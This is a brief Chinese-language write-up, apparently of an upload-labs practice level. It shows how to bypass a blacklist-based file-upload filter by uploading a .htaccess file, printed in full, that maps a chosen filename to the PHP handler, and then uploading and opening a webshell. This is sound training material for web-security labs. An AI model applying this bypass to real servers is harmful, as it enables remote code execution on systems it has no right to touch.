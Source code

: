 直接上传测试发现，php，php3,phtml无法上传。但是随便输入一个phpinfo.a却可以上传。判断依旧使用黑名单。考虑上传.htaccess文件。（上传.htaccess文件适用于labs3）

上传.htaccess文件

```javascript
<FilesMatch "heibai">//注意这里的heibai需修改为上传文件的文件名
    SetHandler application/x-httpd-php
</FilesMatch>
```

上传成功。

![](images/7ACD1DEF42544F028771BF0D1661DEB4clipboard.png)

接下来上传一个黑名单里并不存在的文件后缀木马。

![](images/8D741FB0B20D442ABCC034F244DCD450clipboard.png)

访问该文件。

![](images/6981EE0438FF4E41A52CAD12C8231531clipboard.png)

参考链接:

http://lawlietweb.com/2018/06/07/upload-labs/#%E7%AC%AC%E4%B8%89%E5%85%B3-amp-%E7%AC%AC%E5%9B%9B%E5%85%B3